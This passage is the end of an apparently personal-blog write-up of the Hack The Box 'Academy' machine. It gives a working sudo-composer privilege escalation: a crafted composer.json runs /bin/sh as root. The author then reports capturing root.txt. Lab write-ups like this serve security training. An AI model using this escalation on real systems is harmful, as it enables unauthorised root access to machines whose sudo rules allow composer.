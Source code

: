 run this to get root shell 
```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```
i got root.txt 

![Desktop View]({{ "/assets/img/htb-machines/academy/24.png" | relative_url }})
Thank you for reading my blog if you have any suggestions feel free to contact me on [twitter](https://twitter.com/softwareuser_).


